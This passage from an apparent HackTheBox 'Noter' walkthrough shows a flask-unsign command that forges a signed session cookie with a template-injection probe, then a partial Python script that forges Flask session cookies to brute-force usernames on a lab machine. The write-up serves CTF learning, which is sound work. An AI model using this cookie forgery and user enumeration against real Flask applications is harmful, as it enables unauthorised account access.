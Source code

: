 
I got a little bit stucked and try other vulns (SSTI), but didn't worked out:

```bash

kali@kali:~/Desktop/HackTheBox/Noter$ flask-unsign --sign --cookie "{'_flashes': [('success', '{{7*7}}')]}" --secret 'secret123'

eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsInt7Nyo3fX0iXX1dfQ.YtwvIA.7GHrocqCdGOrsuDLf_zjIsXHiOk
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/3_0_no_ssti.png" width="90%"/>
</p>


Now that I cover the basic tests with the cookies, I decided to bruteforce the users, probably there is no admin user and the fact that the first id from my notes is 3, makes me think that there are other notes on previous indexes.

Prepared the following script for bruteforcing the users and found the user "blue":


```python
import subprocess
import requests
import sys
import json
from flask import Flask, session, request
from flask.sessions import SecureCookieSessionInterface
from tqdm import tqdm

wordlist_file = sys.argv[1]
secret = sys.argv[2]

app = Flask("kashmir_app")
app.secret_key = secret
session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def hello():

	word = request.args.get('word')
	session["logged_in"] = (True)
	session["username"] = (word)

	session_cookie = session_serializer.dumps(dict(session))

	return session_cookie


headers = {
    'Host': '10.10.11.160:5000',
```